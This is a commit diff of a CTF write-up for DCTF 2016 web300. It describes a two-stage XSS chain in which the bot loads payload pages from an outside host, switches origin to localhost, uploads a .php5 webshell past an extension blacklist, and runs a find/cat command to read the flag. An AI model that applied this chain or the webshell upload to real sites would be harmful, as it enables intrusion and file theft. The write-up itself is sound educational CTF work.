

Before and after one commit to mtps3/Mtps3.github.io, a Jekyll site: the page built from _posts/2016-09-25-dctfquals2016-super-secure-company-llc.md, in a window 1280 px wide and 1400 px high, scrolled down 5666 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
dctf web300 writeup: some formatting changes to the final attack paragraph

````diff
--- a/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
+++ b/_posts/2016-09-25-dctfquals2016-super-secure-company-llc.md
@@ -236,22 +236,28 @@ It took us quite a while to find the pretty simple way to bypass this.
 We are gonna use two XSS stages.
 
 1. **Make bot visit stage 1 on our server**
+
    `http://10.13.37.13/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage1.html)`
 
-   **this passes the check in `admin.php` because the host is 10.13.37.13.**
+   this passes the check in `admin.php` because the host is 10.13.37.13.
 
-2. **Stage 1 html redirects to localhost xss, which loads stage 2**
+2. **Stage 1 html redirects to `127.0.0.1` origin, which loads stage 2 XSS
+   payload**, we used javascript to set `window.location` to
+
    `http://127.0.0.1/index.php?page=print&url=(base64 http://10.13.37.13.f0rki.at/stage2.html )`
 
-   **this way we change the origin back to `127.0.0.1` and are able to perfrom `POST` requests without violating the same-origin policy.**
+   this way we change the origin back to `127.0.0.1`, can execute JS in the context of the bot and are able to perfrom `POST` requests without violating the same-origin policy and bypassing the admin check.
 
-3. **Stage 2 payload makes an ajax request** to
-    `http://127.0.0.1/admin.php?page=upload` **and uploads a file.**
+3. **Stage 2 payload makes an ajax `POST` request** to
+
+    `http://127.0.0.1/admin.php?page=upload`
+
+    and uploads a file.
 
 
-But the file upload code disallowed certain file extensions:
+    But the file upload code disallowed certain file extensions:
 
-```php
+    ```php
 <?php
 [...]
 if($extension == '' || $extension == 'php' || $extension == 'htaccess'
@@ -259,14 +265,17 @@ if($extension == '' || $extension == 'php' || $extension == 'htaccess'
    || $extension == 'cpp' || $extension == 'ini' || $extension == 'html') { // fail
 [...]
 ?>
-```
+    ```
 
-Fortunately the `.php5` extension was not part of the blacklist, so we just used that.
+    Fortunately the `.php5` extension was not part of the blacklist, so we just used that.
 
-4. Uploade file with `.php5` extension and visit
+4. **Upload file with `.php5` extension** and visit
+
    `http://10.13.37.13/uploads/file_with_more_than_twelve_chars.php5`
-   to execute the webshell
-5. Executing `find / -name *flag* | xargs cat` revealed the flag in `/flag`:
+
+   to execute the webshell.
+5. **Use webshell** to execute `find / -name *flag* | xargs cat`, which revealed the flag in
+   `/flag`:**
 
    `DCTF{5a42e723159e537443b99ba7f95fbe04}`
 
````
